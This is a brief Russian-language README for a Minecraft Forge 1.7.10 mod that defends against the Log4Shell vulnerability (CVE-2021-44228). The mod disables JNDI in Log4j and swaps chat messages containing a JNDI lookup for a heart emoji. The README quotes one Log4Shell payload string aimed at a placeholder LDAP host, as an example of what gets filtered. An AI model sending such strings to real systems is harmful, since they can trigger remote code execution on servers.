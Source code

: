 # JndiRemover
Небольшой мод направленный на устранение уязвимости CVE-2021-44228 по средствам удаления/отключения Jndi в Log4j и 
перехват сообщений содержащих текст "${jndi:ldap://domainname.com/script}", которые будут заменены на ❤️.

Поддерживаемые версии MC:
Forge 1.7.10
